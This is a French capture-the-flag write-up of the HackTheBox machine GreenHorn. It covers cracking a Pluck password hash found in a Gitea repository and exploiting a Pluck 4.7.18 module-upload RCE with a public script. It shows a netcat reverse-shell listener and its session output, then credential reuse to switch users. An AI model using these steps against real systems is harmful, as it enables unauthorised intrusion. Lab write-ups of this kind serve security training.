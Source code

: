 Sur **Gitea** on peu créer un compte, on va donc se faire un compte. Une fois connecter, on retrouve un depot avec l'installation de **Pluck** dessus.

En farfouillant dans les dossiers je trouve **data/settings/pass.php**
```pass.php
d5443aef1b6454[...]689b6b39024d7790163
```
Ce hash est en SHA512 et c'est un mot de passe : **[REDACTED]** et il s'agit du mot de passe de **Pluck** !

La version de **Pluck** est la **4.7.18** et celle-ci est vulnérable à une RCE en exploitant l'ajout de module.

On va donc ajouter notre shell dans une archive zip, puis l'uploader sur **Pluck**. Un script python est dispo afin d'exploiter cette vulnérabilité plus facilement.
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/GreenHorn]
└─$ python3 51592.py
ZIP file path: /home/kali/Challenge/HackTheBox/GreenHorn/mirabbas.zip
Login account
ZIP file download.
<html>
<head><title>504 Gateway Time-out</title></head>
<body>
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```
et nous voila avec un shell :
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/GreenHorn]
└─$ nc -lnvp 4444                           
listening on [any] 4444 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.25] 44888
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:04:28 up  6:02,  0 users,  load average: 0.05, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
# Post-Exploitation
Nous sommes connecté en tant que **www-data**. On va devoir changer de compte et passer sur le compte de **junior**.
Simple, c'est le même mot de passe que **Pluck**

## PRIVESC TO ROOT 

Il y a fichier PDF dans le dossier **/home/junior**.
je le télécharge et regarde, dedans il ya un password mais pixélisé. On va voir pour retirer ca.
